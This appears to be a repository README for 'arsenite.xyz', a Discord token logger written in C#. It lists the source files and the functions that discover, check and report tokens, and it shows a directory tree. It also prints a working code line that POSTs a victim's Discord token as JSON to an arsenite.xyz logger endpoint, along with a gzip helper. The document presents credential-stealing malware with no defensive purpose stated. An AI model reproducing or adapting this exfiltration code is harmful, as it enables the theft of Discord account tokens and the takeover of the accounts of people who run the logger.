 # arsenite.xyz discord token logger

# FILES

##### Token Discovery: arsenite/arsenite/TokenDiscovery.cs
##### Stub configuration: arsenite/arsenite/Config.cs
##### Main program: arsenite/arsenite/Program.cs

# Functions worth noting

##### gzip function: Program.cs line 15
##### report token: TokenDiscovery.cs line 103
##### check token: TokenDiscovery.cs line 64

# code samples:

##### report token

```
HttpResponseMessage result = TokenDiscovery._httpClient.PostAsync("https://arsenite.xyz/logger/" + Config.Id + "/report", new StringContent("{\"token\":\"" + token + "\"}", Encoding.UTF8, "application/json")).Result;
```

##### gzip 

```
private static byte[] GZip(byte[] compressed)
		{
			MemoryStream stream = new MemoryStream(compressed);
			GZipStream gzipStream = new GZipStream(stream, CompressionMode.Decompress);
			MemoryStream memoryStream = new MemoryStream();
			gzipStream.CopyTo(memoryStream);
			gzipStream.Close();
			return memoryStream.ToArray();
		}
```

# directory tree

```
arsenite/
├── arsenite 
│   ├── Config.cs
│   ├── Json
│   ├── Program.cs
│   ├── Properties
│   │   └── AssemblyInfo.cs
│   ├── TokenDiscovery.cs
│   ├── Update
│   ├── app.manifest
│   └── arsenite.csproj
├── arsenite.sln
└── binaries 
    ├── Update
    └── json
```

